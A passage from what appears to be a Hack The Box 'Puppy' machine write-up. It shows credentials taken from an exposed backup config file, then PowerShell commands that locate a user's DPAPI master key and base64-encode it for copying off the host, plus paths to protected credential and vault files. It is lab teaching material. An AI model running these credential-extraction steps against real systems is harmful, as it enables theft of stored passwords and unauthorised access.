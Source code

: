 Browsing through, we see a *Backups* folder that contains a zip file. We can download this file using Evil-WinRM's `download` option and open it up on our local machine.
![backup files found](/images/htb/machines/Puppy/backup-exposed.png)

After extracting the files from the backup, there is an interesting file `nms-auth-config.xml.bak`. 
This file provides us with additional credentials as well -
![steph-cooper-pwn](/images/htb/machines/Puppy/steph-cooper-password.png)

- New credentials: `steph.cooper:ChefSteph2025!`

Testing it out with nxc again - 
![steph cooper owned](/images/htb/machines/Puppy/steph-cooper-owned.png)

Based on what we have seen so far, `Steph Cooper` has 2 accounts - 
- Mortal Account - `steph.cooper:ChefSteph2025!`
- Admin Account - `steph.cooper_adm`

With our current terminal access, we can move on to attempting to searches for DPAPI credentials. If we can get the credentials and master key, we can attempt to decrypt and get plaintext credentials to move further.

### Grabbing DPAPI Master Key

We can look for these sensitive files in the following directories - 
```
Get-ChildItem C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\steph.cooper\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Local\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
```

In our case, the file exists in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\`

You can use `ls -Hidden` to review the files as needed. Once you have access to the master key, you can copy it over to your local host

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407"))
```

We can then use the following command to decode the resulting base64 on the host.
```
echo "{base64 of master key}" | base64 -d > master.key
```

### Grabbing DPAPI Encrypted Files
These **protected files** for common users are in:

- `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\*`
- `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\*`
- `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Vault\*`
- Check also changing `\Roaming\` to `\Local\` in the above paths.
